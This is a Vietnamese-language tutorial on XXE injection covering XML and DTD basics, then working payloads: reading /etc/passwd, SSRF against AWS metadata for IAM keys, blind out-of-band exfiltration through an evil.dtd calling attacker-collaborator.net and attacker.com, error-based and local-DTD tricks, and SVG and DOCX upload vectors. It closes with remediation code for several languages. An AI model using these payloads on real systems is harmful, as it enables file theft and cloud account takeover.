






# XML External Entity (XXE) Injection - Sổ Tay Thực Chiến & Toàn Tập Kiến Thức

> [!NOTE] Cốt lõi về XXE (Mental Model của mình)
> **Bản chất của XXE là gì?** 
> XML sinh ra để lưu trữ và truyền tải dữ liệu, nhưng chuẩn XML cổ điển lại cho phép định nghĩa các "biến đại diện" gọi là **Entities** thông qua DTD (Document Type Definition). 
> Khi lập trình viên dùng một XML parser mà **quên tắt tính năng phân giải thực thể ngoài (External Entities)**, kẻ tấn công (như mình hoặc bạn) có thể ép parser đọc file trên máy chủ (`file:///etc/passwd`) hoặc ép máy chủ tự gửi request HTTP đến các mạng nội bộ nhạy cảm (**SSRF**).



---

## 1. Roadmap Toàn Diện Về XXE

```text
XML External Entity (XXE) Injection
│
├── 1. Nền Tảng XML & DTD (Hiểu để hack)
│   ├── XML là gì? (Cấu trúc thẻ, dữ liệu)
│   ├── DTD (Document Type Definition) là gì?
│   ├── XML Entities (Các loại thực thể)
│   │   ├── General Entities (Dùng trong thân XML: &entity;)
│   │   ├── Parameter Entities (Dùng trong nội bộ DTD: %entity;)
│   │   └── External Entities (Trỏ ra tài nguyên ngoài: SYSTEM "...")
│   └── Tại sao Parser mặc định lại nguy hiểm?
│
├── 2. Các Dạng Khai Thác XXE Chính
│   ├── 2.1. Đọc file cục bộ (Exploiting XXE to retrieve files)
│   │   ├── Khai thác in-band (Kết quả in thẳng ra response)
│   │   ├── Đọc file Linux (/etc/passwd, /etc/hosts, source code)
│   │   └── Đọc file Windows (C:/Windows/win.ini)
│   ├── 2.2. Khai thác SSRF (Server-Side Request Forgery qua XXE)
│   │   ├── Chọc vào Cloud Metadata (169.254.169.254)
│   │   └── Quét cổng & chọc vào các service nội bộ (Admin panel, Redis, v.v.)
│   └── 2.3. Blind XXE (Khi server không trả về kết quả ra màn hình)
│       ├── Phát hiện Out-of-Band (OOB Callback qua DNS / HTTP Burp Collaborator)
│       ├── Rút trích dữ liệu ra ngoài (Data exfiltration qua external DTD độc hại)
│       ├── Rút trích dữ liệu qua Error Messages (Error-based XXE)
│       └── Repurposing a Local DTD (Khai thác khi firewall chặn toàn bộ kết nối ra Internet)
│
├── 3. Bề Mặt Tấn Công Ẩn (Hidden Attack Surface)
│   ├── 3.1. XInclude Attacks (Khi chỉ kiểm soát một mẩu dữ liệu nhỏ trong XML)
│   ├── 3.2. File Upload Attacks (SVG images, file DOCX / XLSX / PPTX)
│   └── 3.3. Content-Type Swapping (Ép endpoint JSON/Form nhận XML)
│
├── 4. Methodology & Checklist Đi Săn Của Mình
│   ├── Bước 1: Fingerprint parser & công nghệ backend
│   ├── Bước 2: Test thăm dò Entity Expansion thông thường
│   ├── Bước 3: Thử In-band file read / SSRF
│   ├── Bước 4: Chuyển sang Blind OOB nếu không thấy echo
│   └── Bước 5: Thử Error-based & Local DTD nếu bị chặn egress
│
└── 5. Phòng Chống Triệt Để (Remediation)
    ├── Nguyên tắc vàng: Disable DTD & External Entities
    ├── Code mẫu Java (DocumentBuilderFactory, SAXParser)
    ├── Code mẫu PHP (libxml_disable_entity_loader)
    ├── Code mẫu Python (defusedxml)
    └── Code mẫu .NET (XmlReaderSettings)
```

---

## 2. Nền Tảng XML & DTD: "Hiểu Bản Chất Trước Khi Gõ Lệnh"

Khi mới bắt đầu học Web Security, mình thường chỉ học vẹt payload `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>`. Nhưng khi gặp các hệ thống thực tế hoặc WAF lọc từ khóa, nếu không hiểu sâu bản chất XML hoạt động thế nào thì rất dễ bế tắc. Dưới đây là cách mình hệ thống lại những khái niệm này một cách trực quan và dễ nhớ nhất.

### XML và Entity là cái gì?
XML (Extensible Markup Language) là định dạng dữ liệu có cấu trúc thẻ.
Trong XML, **XML Entity** giống hệt một **biến** trong ngôn ngữ lập trình. Khi mình định nghĩa một entity, mình có thể gọi lại nó nhiều lần ở bất cứ đâu trong thân file XML.

Ví dụ thông thường:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
  <!ENTITY author "Tài Nguyễn">
]>
<note>
  <to>Security Team</to>
  <from>&author;</from> <!-- Parser sẽ tự thay &author; thành "Tài Nguyễn" -->
  <message>Hôm nay chúng mình cùng săn bug XXE nhé!</message>
</note>
```

### DTD (Document Type Definition) là gì?
DTD là bản thiết kế quy định ngữ pháp cho tài liệu XML (gồm các thẻ nào, kiểu dữ liệu gì, và có những thực thể nào được khai báo). DTD có thể:
1. Được viết trực tiếp bên trong file XML (**Internal DTD**) thông qua `<!DOCTYPE root_element [...]>`.
2. Hoặc được tải từ bên ngoài (**External DTD**) thông qua `SYSTEM "http://..."` hoặc `SYSTEM "file://..."`.

### External Entity (Thực thể ngoài) - Nguồn gốc sinh ra lỗ hổng
Thay vì gán cứng giá trị cho Entity là chuỗi chữ bình thường, chuẩn XML cho phép dùng từ khóa `SYSTEM` kèm theo một đường dẫn URI để nạp nội dung từ bên ngoài:

```xml
<!ENTITY myExternalVariable SYSTEM "file:///etc/passwd">
```
Hoặc:
```xml
<!ENTITY myNetworkData SYSTEM "http://internal.service/secret.json">
```

Khi ứng dụng parse file XML này và gặp thẻ gọi `&myExternalVariable;`, bộ parser ngây thơ sẽ **tự động đọc file `/etc/passwd` trên ổ đĩa** hoặc **gửi request HTTP đến server nội bộ** rồi nhét nội dung đó vào XML tree!



---

## 3. Khai Thác XXE Trực Tiếp: Đọc File Cục Bộ (In-Band File Retrieval)

Đây là kịch bản thuận lợi nhất mà mình hay gặp trong các bài lab PortSwigger và các ứng dụng doanh nghiệp: **Dữ liệu phân giải từ thẻ XML được server in thẳng ra màn hình**.



### Kịch bản thực tế: Check tồn kho (Check Stock)
Giả sử mình bắt được một request kiểm tra hàng tồn kho gửi lên bằng XML qua Burp Suite:

```http
POST /product/stock HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/xml
Content-Length: 107

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>381</productId>
    <storeId>1</storeId>
</stockCheck>
```

Server trả về:
```http
HTTP/1.1 200 OK
Content-Type: text/plain

52 units available
```

### Cách mình tấn công đọc `/etc/passwd`:
Mình chèn một khối `<!DOCTYPE>` định nghĩa thực thể `xxe` trỏ vào file `/etc/passwd`, sau đó thay giá trị bên trong thẻ `<productId>` bằng `&xxe;`:

```http
POST /product/stock HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/xml
Content-Length: 198

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

Nếu server chưa tắt external entities, parser sẽ đọc toàn bộ nội dung file `/etc/passwd` thay vào vị trí `<productId>` và phản hồi:
```http
HTTP/1.1 200 OK
Content-Type: text/plain

Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
ti:x:1000:1000:ti:/home/ti:/bin/bash
...
```

> [!TIP] Lưu ý cho Windows Server
> Nếu mục tiêu chạy Windows (IIS, .NET), mình sẽ đổi đường dẫn sang:
> `<!ENTITY xxe SYSTEM "file:///C:/Windows/win.ini">` hoặc `file:///C:/boot.ini`.

---

## 4. Khai Thác XXE Để Thực Hiện SSRF (Server-Side Request Forgery)

Nếu target chạy trên hạ tầng Cloud (AWS, Azure, GCP) hoặc nằm sau mạng riêng nội bộ, mình luôn ưu tiên biến XXE thành SSRF để nâng mức độ nghiêm trọng của bug lên Critical.



### Payload khai thác AWS EC2 Metadata:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ 
  <!ENTITY ssrf SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin-role"> 
]>
<stockCheck>
    <productId>&ssrf;</productId>
    <storeId>1</storeId>
</stockCheck>
```

Khi server phản hồi, mình nhận ngay bộ Secret Access Key và Token của EC2 IAM role:
```json
{
  "Code" : "Success",
  "LastUpdated" : "2026-11-07T08:00:00Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "ASIA...",
  "SecretAccessKey" : "wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY",
  "Token" : "AQoDYXdzEJr1..."
}
```
Từ đây bug nhảy từ Medium/High lên thẳng **Critical ($10,000+)** vì mình có thể chiếm toàn quyền kiểm soát tài khoản Cloud của công ty mục tiêu!

---

## 5. Blind XXE: "Khi Server Không Trả Về Kết Quả, Mình Làm Gì?"

Trong thực tế đi pentest và săn bug bounty, hơn 80% trường hợp ứng dụng parse XML nhưng **không hề in giá trị của thẻ ra màn hình** (hoặc chỉ trả về `{"status": "success"}`). Đây gọi là **Blind XXE**.

Để xử lý Blind XXE, mình áp dụng 3 đòn thế chính:
1. **Dò tìm OOB (Out-Of-Band)**: Xác nhận parser có chịu gọi ra ngoài không.
2. **Rút trích dữ liệu qua External DTD**: Dùng tham số `%` (Parameter Entity) để kéo file gửi về server của mình.
3. **Khai thác qua Error Message (Error-based)**: Cố ý ném lỗi để server in nội dung file vào log / stack trace.

### 5.1. Dò tìm Blind XXE bằng Burp Collaborator
Đầu tiên, mình test xem parser có gửi HTTP hoặc DNS lookup ra ngoài không:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ 
  <!ENTITY xxe SYSTEM "http://attacker-collaborator.net/ping"> 
]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

> [!IMPORTANT] Parameter Entities (Thực thể tham số)
> Một số parser chặn việc gọi General Entity (`&xxe;`) bên trong thân XML. Lúc này, mình chuyển sang dùng **XML Parameter Entities** với ký tự `%`. Parameter entity chỉ được dùng trong nội bộ DTD:
> ```xml
> <!DOCTYPE stockCheck [ 
>   <!ENTITY % xxe SYSTEM "http://attacker-collaborator.net/ping"> 
>   %xxe; 
> ]>
> ```
> Khi thấy DNS hoặc HTTP interaction báo về trên Burp Collaborator, mình chắc chắn 100% mục tiêu dính Blind XXE!

---

### 5.2. Rút trích dữ liệu ra ngoài (Data Exfiltration via OOB)

Đây là kỹ thuật tinh tế nhất. Do chuẩn XML cấm gọi Parameter Entity lồng nhau ngay trong Internal DTD, mình phải host một file DTD độc hại trên server của mình (**External DTD**).



#### Bước 1: Host file `evil.dtd` trên máy chủ hoặc Burp Collaborator:
```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker-collaborator.net/?data=%file;'>">
%eval;
%exfiltrate;
```
*(Ghi chú: `&#x25;` chính là mã hex của ký tự `%`, phải encode để parser không bị nhầm lẫn khi nạp `evil.dtd`)*.

#### Bước 2: Gửi request XML lên mục tiêu:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % ext SYSTEM "http://attacker.com/evil.dtd">
  %ext;
]>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

Ngay lập tức, server mục tiêu sẽ tải `evil.dtd`, thực thi logic, và gửi nội dung `/etc/hostname` thẳng vào log HTTP của mình!

---

### 5.3. Rút trích dữ liệu qua Error Message (Error-based XXE)

Nếu server mục tiêu nằm sau một Firewall cực gắt **chặn mọi kết nối đi ra ngoài (Egress Filtering)**, phương án OOB Collaborator sẽ tịt ngòi. 

Lúc này, mình sẽ ép parser gây ra một **lỗi phân giải đường dẫn file không tồn tại**, và nhét nội dung của file nhạy cảm vào chính đường dẫn bị lỗi đó!

File `error.dtd` mình host (hoặc nhúng):
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///khong_co_file_nay/%file;'>">
%eval;
%error;
```

Khi server thực thi, nó sẽ cố mở file `/khong_co_file_nay/<nội_dung_etc_passwd>` và văng ra lỗi:
```text
java.io.FileNotFoundException: /khong_co_file_nay/root:x:0:0:root:/root:/bin/bash... (No such file or directory)
```
Nội dung file bí mật lập tức bị phun ra trong stack trace hiển thị trên màn hình!

---

### 5.4. Đỉnh cao: Repurposing a Local DTD (Khi server bị chặn 100% kết nối mạng ra ngoài)

Một ngày đẹp trời, bạn gặp một server:
1. Không cho kết nối ra Internet (chặn toàn bộ HTTP/DNS callback).
2. Không thể load External DTD từ xa.
3. Không in kết quả trực tiếp ra response.

Liệu có bó tay? **Hoàn toàn không!**

> [!NOTE] Bí kíp của James Kettle & PortSwigger
> Trên hệ điều hành (Linux/Windows) luôn có sẵn các file DTD cục bộ đi kèm phần mềm mặc định (ví dụ GNOME Yelp DTD trên Linux, hoặc font DTD). 
> Kỹ thuật ở đây là: **Tái sử dụng (Repurpose) một file DTD có sẵn trên server**, ghi đè (redefine) một entity có sẵn trong file đó để kích hoạt Error-based XXE mà không cần gửi bất kỳ gói tin nào ra mạng ngoài!

Ví dụ trên các bản phân phối Linux thường có file `/usr/share/yelp/dtd/docbookx.dtd`. Trong file này có định nghĩa sẵn entity tên là `ISOamso`. Mình sẽ ghi đè nó như sau:

```xml
<!DOCTYPE foo [
  <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
  <!ENTITY % ISOamso '
    <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
    <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/%file;&#x27;>">
    &#x25;eval;
    &#x25;error;
  '>
  %local_dtd;
]>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```

**Kết quả:** Parser đọc file local DTD có sẵn trên ổ đĩa, nạp entity bị ghi đè, cố gắng đọc đường dẫn file lỗi và nhả toàn bộ `/etc/passwd` ra thông báo lỗi HTTP 500! Hoàn toàn 0-byte network egress!

---

## 6. Bề Mặt Tấn Công Ẩn (Hidden Attack Surface)

Rất nhiều bạn hỏi mình: *"Website mình test toàn gửi JSON hoặc Form dữ liệu, làm gì có thẻ `<?xml` nào mà test XXE?"*. 
Đừng để bề nổi đánh lừa! Dưới đây là 3 kỹ thuật mình luôn kiểm tra khi không thấy XML hiển thị lộ liễu:



### 6.1. XInclude Attacks: Khi chỉ kiểm soát một phần XML
Trong các kiến trúc backend dùng SOAP hoặc microservices, frontend chỉ nhận tham số của bạn (ví dụ `productId=123`) rồi tự ráp vào một XML template có sẵn:

```xml
<!-- Backend template mà bạn KHÔNG nhìn thấy -->
<backendRequest>
  <clientIp>1.2.3.4</clientIp>
  <productId>GIÁ_TRỊ_BẠN_NHẬP</productId>
</backendRequest>
```

Bạn không thể khai báo `<!DOCTYPE>` ở đầu tài liệu vì bạn không kiểm soát phần header!
Giải pháp là sử dụng **XInclude** (chuẩn của XML cho phép nhúng một tài liệu XML/text khác ngay tại thân dữ liệu):

```http
POST /product/stock HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded

productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

Nếu parser hỗ trợ XInclude, nó sẽ tự đọc `/etc/passwd` và nhét thẳng vào vị trí thẻ `<foo>`!

---

### 6.2. XXE Qua File Upload: SVG và Microsoft Office (DOCX, XLSX)
Bất cứ tính năng upload avatar, logo, import file Excel hay xử lý hóa đơn nào cũng đều là "mỏ vàng" XXE tiềm năng.

#### Upload ảnh SVG:
Ảnh SVG bản chất chính là mã XML! Nếu server nhận ảnh SVG rồi render ra PNG hoặc hiển thị:
Tạo file `avatar.svg`:
```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="500px" height="100px" xmlns="http://www.w3.org/2000/svg">
  <text font-size="20" x="0" y="30">&xxe;</text>
</svg>
```
Khi server chuyển đổi ảnh hoặc trả về, chữ trong ảnh chính là tên hostname hoặc dữ liệu nhạy cảm của server!

#### Upload file Office (.docx, .xlsx, .pptx):
Các file Office hiện đại (OpenXML) thực chất là file nén ZIP chứa toàn file XML bên trong!
1. Đổi tên `document.docx` thành `document.zip`.
2. Giải nén, mở file `word/document.xml` hoặc `[Content_Types].xml`.
3. Nhét payload DOCTYPE XXE vào đầu file XML đó.
4. Nén lại thành `.zip`, đổi đuôi thành `.docx` và upload lên server.

---

### 6.3. Thay Đổi Content-Type (Content-Type Swapping)
Nhiều framework backend (như Spring Boot, ASP.NET, PHP API) có cơ chế **tự động parse theo `Content-Type`**. Dù ban đầu giao diện gửi JSON:

```http
POST /api/user/update HTTP/1.1
Host: target.com
Content-Type: application/json

{"username": "admin", "email": "test@test.com"}
```

Mình thử đổi sang:
```http
POST /api/user/update HTTP/1.1
Host: target.com
Content-Type: application/xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<user>
  <username>&xxe;</username>
  <email>test@test.com</email>
</user>
```
Nếu backend có cài thư viện parse XML và chưa cấu hình chặt, nó sẽ chuyển sang parse XML và dính đòn ngay lập tức!

---

## 7. Bảng Tóm Tắt Khả Năng Bị Lỗi Theo Từng Công Nghệ (2026 Ecosystem)

Không phải parser nào cũng dính lỗi theo cùng một cách. Bảng dưới đây giúp mình tiết kiệm hàng giờ test vu vơ:

| Ngôn ngữ / Parser | Hành vi mặc định với SYSTEM entity | Dính lỗi mặc định? | Ghi chú thực chiến |
|---|---|:---:|---|
| **Java SAX / DOM (`DocumentBuilderFactory`)** | Tự động parse và resolve entity | **CÓ** | Cực kỳ phổ biến trong các hệ thống ngân hàng, viễn thông. |
| **Java JAXB / JAX-WS** | Tự động resolve | **CÓ** | Thường gặp trong các cổng SOAP/WSDL cũ. |
| **PHP `DOMDocument` / `simplexml` (PHP < 8)** | Bật entity resolution nếu dùng cờ `LIBXML_NOENT` | **CÓ** | PHP 8.0+ đã tắt mặc định, nhưng code cũ PHP 7 vẫn dính rất nhiều. |
| **.NET `XmlDocument` (.NET Framework cũ)** | Cho phép DTD nếu set `XmlResolver` | **CÓ** | .NET Core / .NET 6+ đã cấm DTD theo mặc định (`Prohibit`). |
| **Python `lxml`** | Chặn đọc file local mặc định ở bản mới | **Ít** | Có thể vẫn gửi network request nếu `no_network=False`. |
| **Python `xml.etree`** | Không hỗ trợ DTD entity | **KHÔNG** | An toàn trước XXE classic. |
| **Node.js `libxmljs`** | Dính nếu cấu hình bật entity | **CÓ** | Thường an toàn trừ khi dev bật option nguy hiểm. |

---

## 8. Phương Pháp Phòng Chống Triệt Để (Remediation)

Tất cả các lỗ hổng XXE phát sinh vì một lý do duy nhất: **XML parser bật tính năng phân giải DTD và External Entities khi xử lý dữ liệu không đáng tin cậy**.

Cách khắc phục triệt để nhất là: **Tắt hoàn toàn tính năng xử lý DTD ngoài (Disallow DOCTYPE / External DTDs)**.

### Java (DocumentBuilderFactory)
```java
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
// Vô hiệu hóa hoàn toàn DOCTYPE declaration
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);

// Hoặc nếu bắt buộc phải dùng DOCTYPE, tắt external entities:
dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
dbf.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
dbf.setXIncludeAware(false);
dbf.setExpandEntityReferences(false);
```

### PHP (libxml)
```php
// Tắt nạp entity từ bên ngoài cho libxml
libxml_disable_entity_loader(true);

// Với PHP 8.0 trở lên, libxml đã tắt mặc định, tránh truyền cờ LIBXML_NOENT:
$doc = new DOMDocument();
$doc->loadXML($xmlString); // An toàn nếu không truyền LIBXML_NOENT
```

### Python
```python
# Thay vì dùng lxml hoặc xml.sax nguy hiểm, hãy dùng thư viện defusedxml:
import defusedxml.minidom
from defusedxml.ElementTree import parse

dom = defusedxml.minidom.parseString(xml_data) # An toàn tuyệt đối trước XXE
```

### .NET (C#)
```csharp
XmlReaderSettings settings = new XmlReaderSettings();
// Chặn hoàn toàn việc xử lý DTD
settings.DtdProcessing = DtdProcessing.Prohibit;
// Hoặc nếu phải xử lý thì không giải quyết URL ngoài
settings.XmlResolver = null;

XmlReader reader = XmlReader.Create(stream, settings);
```

---

## 9. Tổng Kết & Lời Khuyên Của Mình
1. **Luôn giữ tư duy đa chiều**: Khi thấy bất kỳ endpoint nào nhận dữ liệu dạng text, hãy thử đổi `Content-Type` sang XML.
2. **Không thấy phản hồi không có nghĩa là an toàn**: Blind XXE chiếm đa số trong thực tế, hãy luôn chuẩn bị sẵn Burp Collaborator hoặc máy chủ test OOB.
3. **Thao tác có tâm khi pentest**: Khi đã xác nhận đọc được 1 dòng của `/etc/passwd` hoặc hostname, hãy dừng lại và báo cáo; không cố dump toàn bộ shadow hay tài liệu nhạy cảm nếu không có thỏa thuận cụ thể trong Scope!
